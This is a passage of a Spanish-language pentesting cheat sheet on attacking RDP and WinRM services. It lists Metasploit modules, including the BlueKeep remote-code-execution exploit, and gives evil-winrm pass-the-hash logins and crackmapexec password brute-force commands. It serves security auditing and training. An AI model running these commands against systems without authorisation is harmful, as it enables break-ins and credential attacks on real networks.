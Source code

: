 <br>

<h3 id="RDP4">Módulos de Metasploit</h3>

```bash
# Módulo que identifica si esta activo el RDP
auxiliary/scanner/rdp/rdp_scanner


# Módulo que prueba si es vulnerable el RDP al ataque BlueKeep
auxiliary/scanner/rdp/cve_2019_0708_bluekeep


# Módulo que prueba el ataque BlueKeep en RDP
exploit/windows/rdp/cve_2019_0708_bluekeep_rce


# Módulo que activa el servicio RDP
post/windows/manage/enable_rdp
```

Aquí puedes encontrar más información sobre **RDP**:
* <a href="https://www.cloudflare.com/es-es/learning/access-management/what-is-the-remote-desktop-protocol/" target="_blank">¿Qué es el Protocolo de escritorio remoto (RDP)?</a>
* <a href="https://book.hacktricks.xyz/network-services-pentesting/pentesting-rdp" target="_blank">HackTricks: Pentesting RDP</a>

<br>

<h2 id="WinRM">Puerto 5985,5986 - Servicio WinRM</h2>

¿Qué es el **servicio WinRM**?

| **Servicio WinRM** |
|:-----------:|
| *El servicio WinRM es la implementación de la especificación de WS-Management que permite la cooperación entre sistemas operativos y de hardware que proceden de proveedores distintos.* |

<br>

A continuación, dejo una forma de auditar este servicio:

```bash
# Conectandonos con evil-winrm
evil-winrm -i <IP> -u '<usuario>' -p '<contraseña>'


# Aplicando Pass-The-Hash en evil-winrm
evil-winrm -i <IP> -u '<usuario>' -H '<Hash>'


# Fuerza bruta con crackmapexec hacia WinRM
crackmapexec winrm <IP> -u </Path_del_wordlists_de_usuario> -p </Path_del_wordlists_de_contraseñas>
Ej: crackmapexec winrm 192.168.1.15 -u /Desktop/users_wordlists.txt -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt


# Fuerza bruta con crackmapexec hacia WinRM usando un usuario
crackmapexec winrm <IP> -u '<usuario>' -p </Path_del_wordlists_de_contraseñas>
Ej: crackmapexec winrm 192.168.1.15 -u 'pepito' -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt


# Usando Metasploit para conectarnos al WinRM
search winrm_script
use winrm_script_exec
set RHOSTS <IP>
set FORCE_VBS true
set USERNAME <usuario>
```